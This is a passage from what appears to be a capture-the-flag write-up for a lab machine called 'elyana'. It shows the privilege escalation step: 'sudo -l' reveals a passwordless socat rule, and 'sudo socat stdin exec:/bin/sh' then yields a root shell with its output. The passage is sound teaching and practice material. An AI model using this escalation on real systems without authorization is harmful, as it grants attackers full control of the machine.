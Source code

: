 ```python
-bash-4.4$ 
-bash-4.4$ ls 
hint.txt  user.txt
-bash-4.4$ 
```

## Privilege escalation

`sudo -l`

```python
-bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:                                                                                                                                              
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                        
                                            
User elyana may run the following commands on elyana:                                                                                                                                        
    (ALL) NOPASSWD: /usr/bin/socat                                                                                                                                                           
```

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/)

```python                                                                                                                                                        
-bash-4.4$ sudo socat stdin exec:/bin/sh                                                                                                                                                     
id                                                                                                                                                                                           
uid=0(root) gid=0(root) groups=0(root) 
ls /root                                                                                                                                                                                     
root.txt                                                                                                                                                                                     
```

